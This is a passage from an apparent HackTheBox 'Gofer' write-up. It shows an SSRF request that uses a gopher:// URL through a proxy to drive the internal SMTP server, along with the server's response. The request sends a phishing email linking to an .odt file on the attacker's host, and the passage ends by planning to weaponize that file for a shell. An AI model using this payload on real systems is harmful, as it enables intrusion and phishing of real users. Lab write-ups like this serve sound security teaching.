 Sending the following request ended up with us sending a valid email to the client.

```
n1Mp0rTeKwa /index.php?url=gopher://gofer.htb:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20http://10.10.14.54/file.odt%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a HTTP/1.1
Host: proxy.gofer.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic Og==
```
The server then issued the following valid response.
```
HTTP/1.1 200 OK
Date: Sat, 28 Oct 2023 12:59:30 GMT
Server: Apache/2.4.56 (Debian)
Vary: Accept-Encoding
Content-Length: 205
Connection: close
Content-Type: text/html; charset=UTF-8

<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as 32D0E80B3
221 2.0.0 Bye
1
```
Then a few seconds later the request for the odt file arrives at our web server.

![Mail successfully sent and read](/assets/img/Gofer/Gofer_05.png)

So next step would be to weaponize our odt file to give us a shell on the pc

